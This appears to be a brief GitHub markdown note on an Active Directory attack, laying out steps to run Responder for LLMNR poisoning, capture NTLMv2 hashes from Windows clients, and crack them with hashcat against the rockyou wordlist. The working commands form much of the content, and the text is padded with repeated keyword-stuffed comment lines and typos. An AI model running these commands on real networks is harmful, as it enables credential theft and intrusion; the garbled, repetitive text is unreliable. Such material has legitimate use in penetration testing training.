




# know how active directory attack ntlmv2 hashes with responder
```bash
## know how ntlmv2 hashes active directory attack
## know how active directory attack ntlmv2 hashes
## know how active directory attack ntlmv2 hashes responder
## know how responder active directory attack ntlmv2 hashes
## know how active directory attack responder ntlmv2 hashes
## know how active directory attack ntlmv2 hashes responder
```

```bash
## know how active directory 1
## know how active directory hash
```
1. step 1 Launch responder


```bash
sudo responder -I eth3 -dwv
sudo responder -I eth3 -rdwv
```





2. execuete action for view ntlmv2 hashes
  
Now its listening, if any doing any request to the server, we listening. We can try using windows 10 connect to `\\ip`




3. step 3 get hashes llmnr poisoning

4. step 4 use hashcat to crack hashes . Crack dem hashes

```bash
## know how hashcat active directory attack
## know how active directory hashcat attack


hashcat -m 5600 hashes.txt rockyou.txt
```



